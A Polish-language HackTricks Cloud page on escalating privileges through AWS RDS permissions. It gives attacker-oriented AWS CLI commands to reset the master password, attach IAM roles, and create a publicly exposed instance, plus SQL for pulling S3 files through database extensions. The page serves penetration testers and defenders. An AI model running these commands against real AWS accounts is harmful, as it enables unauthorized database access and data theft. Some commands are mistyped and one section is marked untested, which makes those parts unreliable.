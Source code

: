 # AWS - Eskalacja uprawnień w RDS

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS - Usługa baz danych relacyjnych

Aby uzyskać więcej informacji na temat RDS, sprawdź:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Z tym uprawnieniem atakujący może **zmienić hasło głównego użytkownika** oraz logowanie do bazy danych:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Będziesz musiał móc **skontaktować się z bazą danych** (zazwyczaj są one dostępne tylko z wewnątrz sieci).
{% endhint %}

**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### rds-db:connect

Zgodnie z [**dokumentacją**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) użytkownik z tym uprawnieniem mógłby połączyć się z instancją bazy danych.

### Nadużycie uprawnień roli IAM RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Jeśli wykonasz **`SELECT datname FROM pg_database;`** i znajdziesz bazę danych o nazwie **`rdsadmin`**, to oznacza, że jesteś w **bazie danych AWS postgresql**.
{% endhint %}

Najpierw możesz sprawdzić, czy ta baza danych została użyta do uzyskania dostępu do innej usługi AWS. Możesz to sprawdzić, analizując zainstalowane rozszerzenia:
```sql
SELECT * FROM pg_extension;
```
Jeśli znajdziesz coś takiego jak **`aws_s3`**, możesz założyć, że ta baza danych ma **pewien rodzaj dostępu do S3** (istnieją inne rozszerzenia, takie jak **`aws_ml`** i **`aws_lambda`**).

Ponadto, jeśli masz uprawnienia do uruchomienia polecenia **`aws rds describe-db-clusters`**, możesz zobaczyć, czy **klaster ma przypisaną jakąś rolę IAM** w polu **`AssociatedRoles`**. Jeśli tak, możesz założyć, że baza danych została **przygotowana do dostępu do innych usług AWS**. Na podstawie **nazwy roli** (lub jeśli możesz uzyskać **uprawnienia** roli) możesz **zgadnąć**, jakie dodatkowe uprawnienia ma baza danych.

Teraz, aby **odczytać plik wewnątrz kubełka**, musisz znać pełną ścieżkę. Możesz to zrobić za pomocą:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Jeśli masz **surowe dane uwierzytelniające AWS**, możesz ich również użyć do uzyskania dostępu do danych w S3 za pomocą:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **nie musi zmieniać żadnej zmiennej grupy parametrów**, aby móc uzyskać dostęp do S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wewnątrz mysql, jeśli wykonasz zapytanie **`SELECT User, Host FROM mysql.user;`** i istnieje użytkownik o nazwie **`rdsadmin`**, możesz założyć, że znajdujesz się w bazie danych **AWS RDS mysql**.
{% endhint %}

Wewnątrz mysql wykonaj **`show variables;`** i jeśli zmienne takie jak **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** mają wartości, możesz założyć, że baza danych jest przygotowana do dostępu do danych z S3.

Dodatkowo, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`** możesz sprawdzić, czy klaster ma jakąkolwiek **powiązaną rolę**, co zazwyczaj oznacza dostęp do usług AWS).

Teraz, aby **odczytać plik wewnątrz kubełka**, musisz znać pełną ścieżkę. Możesz to odczytać za pomocą:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Atakujący posiadający uprawnienia `rds:AddRoleToDBCluster` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić atakującemu **dostęp do poufnych danych** lub modyfikację danych w instancji.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencjalny wpływ**: Dostęp do danych poufnych lub nieautoryzowane modyfikacje danych w instancji RDS.\
Należy zauważyć, że niektóre bazy danych wymagają dodatkowych konfiguracji, takich jak Mysql, który musi określić ARN roli w grupach parametrów również.

### `rds:CreateDBInstance`

Tylko z tym uprawnieniem atakujący mógłby utworzyć **nową instancję wewnątrz istniejącego klastra**, który ma przypisaną **rolę IAM**. Nie będzie mógł zmienić hasła głównego użytkownika, ale może wystawić nową instancję bazy danych do internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Atakujący posiadający uprawnienia `rds:CreateDBInstance` i `iam:PassRole` może **utworzyć nową instancję RDS z przypisaną określoną rolą**. Następnie atakujący może potencjalnie **uzyskać dostęp do danych poufnych** lub modyfikować dane wewnątrz instancji.

{% hint style="warning" %}
Niektóre wymagania dotyczące roli/profilu instancji do przypisania (z [**tutaj**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil musi istnieć w twoim koncie.
* Profil musi mieć rolę IAM, którą Amazon EC2 ma uprawnienia do przejęcia.
* Nazwa profilu instancji i nazwa powiązanej roli IAM muszą zaczynać się od prefiksu `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencjalne skutki**: Dostęp do poufnych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Atakujący posiadający uprawnienia `rds:AddRoleToDBInstance` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić atakującemu **dostęp do poufnych danych** lub modyfikację danych w instancji.

{% hint style="warning" %}
Instancja bazy danych musi znajdować się poza klastrem, aby to zadziałało.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencjalne skutki**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakowania, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
